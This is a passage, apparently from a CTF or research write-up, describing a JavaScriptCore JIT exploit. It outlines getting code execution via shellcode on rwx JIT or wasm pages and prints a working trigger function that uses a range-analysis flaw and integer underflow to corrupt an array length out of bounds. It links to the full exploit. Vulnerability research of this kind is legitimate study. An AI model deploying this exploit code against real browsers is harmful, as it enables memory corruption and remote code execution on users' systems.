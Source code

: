 Using all the primitives we have constructed so far, the rest of the exploit is pretty easy. We can use either a JIT compiled function or a wasm function, which will both create `rwx` pages, write our own shellcode to the generated `rwx` page, then call the aforementioned function, to get code execution! 

## Exploit Script

Stable OOB read:

```js
function hax(arr, a) {
    // Force 32-bit integer
    let b = a | 0;
    // Setup bug trigger
    // compiler assumes range is [1, 2], actually [0, 2]
    let c = b & 2;
    // Trigger rangeFor
    // assumed range [0, 1], actual [-1, 1]
    let idx = c - 1;

    // Check will always pass
    if (idx < arr.length) {
        // Trigger integer underflow, idx will become INT_MAX
        // Compiler assumes this case only triggers for value 0, no underflow check
        if (idx < 1) {
            idx += -0x80000000;
        }
        // Use this to set oob write index
        if (idx > 2) {
            idx += -0x7ffffffa;
        }
        // idx assumed to be < arr.length, only subtraction occurs so upper bound is unchecked
        // Overwrite length of array to 0x1337
        if (idx > 0) {
            arr[idx] = 0x1337;
        }
    }
}

noInline(hax);

var arr = new Array(5);
var dblarr = new Array(5);
var objarr = new Array(5);
arr.fill(1);
dblarr.fill(13.37);
objarr.fill({});

function trigger() {
    for (var i = 0; i < 100000; ++i) {
        hax(arr, 2);
    }
    hax(arr, 1);

}
```
The full exploit script can be found [here](https://gist.github.com/d4rk-kn1gh7/65651373a09b7e98c0c4a3a727204d59).
